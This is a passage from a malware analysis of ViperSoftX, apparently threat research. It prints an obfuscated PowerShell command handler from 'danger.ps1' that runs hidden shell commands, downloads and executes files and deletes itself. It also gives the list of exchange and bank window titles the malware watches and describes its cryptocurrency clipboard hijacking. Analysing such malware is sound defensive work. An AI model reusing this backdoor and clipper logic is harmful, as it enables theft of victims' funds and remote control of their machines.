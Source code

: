 ### PowerShell Analysis and Pivoting

<a name="PowerShell"></a>

The following obfuscated PowerShell code from *danger.ps1* references functions observed in previous ViperSoftX research such as *Cmd*, *DwnlExe* and  *SelfRemove*
```
try {
    [string]$kk9XDcoU8Sfo692 = oUjmVhxHJ4Qhrw;
    [string[]] $sep = $ZFKUuv2t12Af;
    $Fd1Jal88zKyxij = $kk9XDcoU8Sfo692.Split( $sep, [StringSplitOptions]::None);
    $ivI0sA6txn5XPifq = $Fd1Jal88zKyxij[0];
    $JkByjqH1xztsW2YUG = $Fd1Jal88zKyxij[1];

    if ($ivI0sA6txn5XPifq -eq "Cmd") {
        Start-Process -FilePath "cmd.exe" -WindowStyle "Hidden" -ArgumentList ("/c " + $JkByjqH1xztsW2YUG)
    }
    if ($ivI0sA6txn5XPifq -eq "DwnlExe") {
        $path = $AuVAfc591z0Yw + $Fd1Jal88zKyxij[2];
        $cmd = $Fd1Jal88zKyxij[3] + $path;
        yQM1ybBDSjEP $Fd1Jal88zKyxij[1] $path $true;
        Start-Sleep 1
        Start-Process -FilePath "cmd.exe" -WindowStyle "Hidden" -ArgumentList ("/c " + $cmd)
    }
    if ($ivI0sA6txn5XPifq -eq "SelfRemove") {
        Gn4bSDMHKIxEE8UP7wZJ $true
    }
}
catch {}
```

Looking at the powershell script *danger.ps1*, there were a few function names of interest to me:
- *DownloadFile*
- *FindPaths*
- *FindWindow*
- *Get-Clip*
- *Get-HWID*
- *Handle_WM_CLIPBOARDUPDATE*
- *Set-Clip*
- *Set-Log*
- *av_enabled*
- *getUserAgent*


The function *FindWindow* checks the victims running Windows applications for the following application titles:
```
$keywords = @('binance', 'coinbase', 'blockchain', 'voyager', 'blockfi', 'coindesk', 'etoro', 'kucoin', 'citi', 'paxful', 'paypal', 'huobi', 'poloniex', 'bittrex', 'kraken', 'bitfinex', 'bitstamp')
```
One of the powershell malicious functionality is to hijack the victims copy and paste clipboard values for the following cryptocurrencies: BTC, BCH, BNB, ETH, XMR, XRP, DOGE & DASH

